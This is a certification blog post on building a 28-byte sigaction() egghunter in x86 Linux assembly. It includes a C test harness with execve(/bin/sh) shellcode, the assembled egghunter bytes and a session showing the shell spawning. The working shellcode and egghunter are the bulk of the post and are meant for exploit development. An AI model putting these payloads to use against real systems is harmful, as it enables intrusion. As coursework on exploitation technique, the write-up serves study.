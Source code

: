 ```yaml
---
title:  "[SLAE 3] Egghunter Shellcode"
---
```


![Logo](/assets/images/tux-root.png)

## Creating an egghunter shellcode

For the third assignment of the [SLAE](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/) course I've studied different egghunter payloads. The starting reference paper for this is **skape**'s [Safely Searching Process Virtual Address Space](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf). 

I've implemented the 3 methods described in the paper:
* **access()** - Small and robust egghunter using _`access()`_ system call to check validity  of addresses. 
  * **Cons**: size is 39 bytes and the egg needs to be executable because after finding it, the execution jump before the egg and continues on.
* **access() revisited** - smaller (35 bytes), minor speed improvements, egg does not need to be executable. 
  * **Cons**: sets DF flag in case of failure (in very rare cases this could impact the running of the host application)
* **sigaction()** - even smaller (30 bytes), robust and very fast (validates 16 bytes at a time). 
  * **Cons**: some very rare odd failure situation described in detail in the paper.

For the purpose of this post, I'll detail my slightly modified version of the _`sigaction()`_ egghunter:
* **sigaction() reloaded** - the smallest version (__*only 28 bytes*__). I've replaced the double check for the egg with only one check. To avoid finding the egg in the comparison from the shellcode, I've applied a small transform before searching for it (_`inc eax`_ in this case, but could be any other 1 bytecode operation also - e.g. shifting bytes).

```asm
global _start   

section .text
_start:
    or cx,0xfff             ; page allignment
next_addr:
    inc ecx                 ; Pointer to region to be validated
    push byte +0x43         ; sigaction() syscall number
    pop eax                 ; Syscall number in eax
    int 0x80                ; Execut ethe syscall
    cmp al,0xf2             ; Compare with EFAULT
    jz short _start         ; Go to next page
    mov eax, <EGG>          ; The egg
    inc eax                 ; Egg modification. Avoid first find from above!
    mov edi,ecx             ; Prepare for comparison
    scasd                   ; Compare
    jnz short next_addr     ; Jump to next address
    jmp edi                 ; Jump to shellcode
```

To test it I've used the following C program simulating a real payload:
```
[  filler  ] [  egghunter  ] [  garbage  ] [  shellcode  ]
```

```c
#include <stdio.h>
#include <string.h>
 
#define     EGG     "<EGG>"
 
unsigned char sled[] = "Some misc bytes here";
unsigned char egghunter[] = 
        "<EGGHUNTER>";
unsigned char garbage[] = "Garbage, mangled bytes, whatever";
// execve(/bin/sh,..) shellcode here 
unsigned char shellcode[] = EGG
        "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3"
                "\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";
 
// Function pointer
typedef int (*func_ptr)();
 
void main() {
    printf("Egghunter length: %d bytes\n", strlen(egghunter));
    printf("Shellcode Length:  %d bytes\n", strlen(shellcode));
 
    ((func_ptr) egghunter)();
}
```

The egg is configurable, and the compilation takes place from a wrapper script: 
```bash
$ ./compile.sh 
Usage: compile.sh {4 chars EGG mark}
 E.g.: compile.sh W00T
$ ./compile.sh BUBU
  [*] Using egg  BUBU
  [*] (Modified) Egg hex:, 0x55425542
  [+] Replace egg with, BUBU
  [+] Assembling egghunter
  [+] Linking egghunter
  [*] Egghunter:
\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c\xf2\x74\xf1\xb8\x42\x55\x42\x55\x40\x89\xcf\xaf\x75\xeb\xff\xe7
  [+] Compile shellcode tester
  [+] House cleaning
  [+] Done! run ./shellcode
$ ./shellcode
Egghunter length: 28 bytes
Shellcode Length:  29 bytes
$ whoami
liv
```

##

The complete source files and scripts mentioned in this post can be found in my [SLAE Git repository](https://github.com/livz/slae).

**_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)_**
